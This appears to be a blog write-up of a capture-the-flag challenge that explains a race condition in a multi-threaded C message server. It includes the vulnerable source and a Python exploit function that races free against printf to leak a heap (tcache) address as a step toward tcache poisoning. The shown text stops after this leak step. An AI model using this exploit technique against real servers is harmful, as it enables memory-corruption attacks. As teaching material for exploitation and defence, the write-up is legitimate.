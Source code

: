 ```yaml
---
layout: post
title: "Exploitation primitives"
date: 2025-06-22 10:00:00 -0000
categories: writeup 
tags: [tcache poisoning, race condition]
---
```


# Race condition and tcache poisoning

Here I am sharing a very interesting challenge that involves race condition and tcache poisoning (an easy heap attack)

# Vulnerability

Let's dive right into the vulnerability of the binary file. First thing first, here are the simplified source code:

```c
void *handle_connection(void *fd) {
    FILE *in = fdopen((long)fd, "r");
    FILE *out = fdopen((long)fd, "w");
    setvbuf(in, NULL, _IONBF, 0);
    setvbuf(out, NULL, _IONBF, 1);

    fprintf(stderr, "Handling connection on FD %d\n", (int)fd);
    vuln(in, out);
    fprintf(stderr, "Closing connection on FD %d\n", (int)fd);

    close((long)fd);
    pthread_exit(0);
}

int main() {
    int server_fd = socket(AF_INET, SOCK_STREAM, 0);
    int option = 1;
    setsockopt(server_fd, SOL_SOCKET, SO_REUSEADDR | SO_REUSEPORT, &option, sizeof(option));
    struct sockaddr_in server_addr;
    server_addr.sin_family = AF_INET;
    server_addr.sin_addr.s_addr = INADDR_ANY;
    server_addr.sin_port = htons(1337);
    bind(server_fd, (struct sockaddr *) &server_addr, sizeof(server_addr));
    listen(server_fd, 4096);

    while (1) {
        pthread_t thread;
        long connection_fd = accept(server_fd, NULL, NULL);
        pthread_create(&thread, NULL, handle_connection, (void *)connection_fd);
    }
}

```
the above presents a multi-threaded TCP server which allows multiple connections to it at the same time. If you do not know what a multi-threaded server is, that is ok, because I also am not very sure lol. I only know that it handles multiple threads (like processes) at the same time.

Below is the vulnerable main function that would be run in each threads. Since the original source code decompiled by ghidra is overwhelmingly complicated to read, here is a simplified version that is good enough for us to understand the vulnerability.
```c
char *messages[16] = { 0 };
int stored[16] = { 0 };

void vuln(FILE *in, FILE *out) {
    fprintf(out, "Welcome to the message server! Commands: malloc/scanf/printf/free/quit.\n");
    char input[1024];
    int idx;

    while (1)
    {
        if (fscanf(in, "%s", input) == EOF) break;
        if (strcmp(input, "quit") == 0) break;
        if (fscanf(in, "%d", &idx) == EOF) break;

        if (strcmp(input, "printf") == 0) {
            if (fprintf(out, "MESSAGE: %s\n", stored[idx] ? messages[idx] : "NONE") < 0) break;
        }
        else if (strcmp(input, "malloc") == 0) {
            if (!stored[idx]) messages[idx] = malloc(1024);
            stored[idx] = 1;
        }
        else if (strcmp(input, "scanf") == 0) {
            fscanf(in, "%1024s", stored[idx] ? messages[idx] : input);
        }
        else if (strcmp(input, "free") == 0) {
            if (stored[idx]) free(messages[idx]);
            stored[idx] = 0;
        }
        else fprintf(stderr, "INVALID COMMAND %s %#llx\n", input, *(unsigned long long*)input);
    }
}
```
Actually, if it is a single threaded process, the above function would be secure. It is only vulnerable in the context that it is a multi-threaded program. 

Why? 

because of race condition, we are able to leak a heap address, perform tcache poisoning to do arbitrary read and write.

## What is a race condition and how it matters in above program

Race condition is about processes, programs, or instructions getting mixed up in an order that allows us to perform a malicious sequence of operations

Using the above program as example:

when we run the following in terminal, each operations are supposed to run in a normal sequence
```
$ nc localhost 1337
Welcome to the message server! Commands: malloc/scanf/printf/free/quit.

malloc 0 // 0 is the index of a heap chunk, so that we can access it later 

scanf 0 AAAA // editing the chunk

free 0 // delete the chunk

printf 0 // print the content of the chunk 
```
they should be running in a sequence like:
```
malloc --> scanf --> free --> printf
```
and since we deleted the chunk before printing its content, it should output `MESSAGE: NONE`

However, if we create the following 2 loops and keeps them running **AT THE SAME TIME**:
```
# LOOP 1

malloc 0 

scanf 0 AAAA 

free 0 
```
```
# LOOP 2 

printf 0
```
Then, the ordering of the operations would differ, which we could get:
```
malloc --> scanf --> printf --> free 

malloc --> printf --> scanf --> free 

printf --> malloc --> scanf --> free

etc.
```

So that's the basic idea of race condition, so how does this help in our exploit?
Let's take a closer look into the `free` and `printf` operation

Under `free`, we have:
```
if (stored[idx]) 
	free(messages[idx]);

stored[idx] = 0;
```
We can see that it carefully checks whether `stored[idx]` is already 0 before freeing to protect against double free. And setting it to 0 after freeing to protect against use-after-free. So there are 2 operations inside `free` operation:

```
free --> stored[idx] = 0
```

and in inside of a `printf("%s", a)` function, there are also multiple various instructions, for example:
```
strlen(a) --> ?? --> ?? --> write(1, a, length)
```

Since this is a multi-threaded process, we can run two threads and thus two loops at the same time, like the example loop I mentioned above:
```
# LOOP 1

malloc 0 

scanf 0 AAAA 

free 0 
```
```
# LOOP 2 

printf 0
```

and ideally, we would like to see the a few operations mixed up in the following sequences, where `printf 0` is broken down into `strlen(a)` and `write(1, a, length)` and being mixed with free

```
strlen(a) --> free 0 --> write(1, a, length) --> stored[0] = 0
```

thus, we can bypass the protection in `free` operation and print something inside a freed chunk, likely a **heap address**. So we get a heap address with the following python exploit code that uses the idea I went through above:

```py
def leak_tcache(r1, r2):
	if os.fork() == 0: # .fork() duplicates a new process. There will be exactly two processes - child and parent running the same python script at the same time
	
	# os.fork() == 0 is the child, child does the following
		for _ in range(10000):
			r1.sendline(b"malloc 0")
			r1.sendline(b"scanf 0")
			r1.sendline(b"AAAABBBB")
			r1.sendline(b"free 0") # hope for write() of printf to go right after this
		exit(0) # kills the child
		
	# else, parent (os.fork() returns pid
	else:
		for _ in range(10000):
			r2.sendline(b"printf 0")
		os.wait() # waits for the child to finish
	output_set = set(r2.clean().splitlines())
	# .clean() gets the output
	# .splitlines() split the output by lines
	# set() gets the unique lines
	print(output_set)
	for output in output_set:
		output = output[9:]
		if output[:1] != b'\x41' and b'\x07' in output: # for bytes object, output[i] outputs integer
			result = output[:6]
			print(result)
			return u64(result.ljust(8, b'\x00'))
	return 0
```
        
















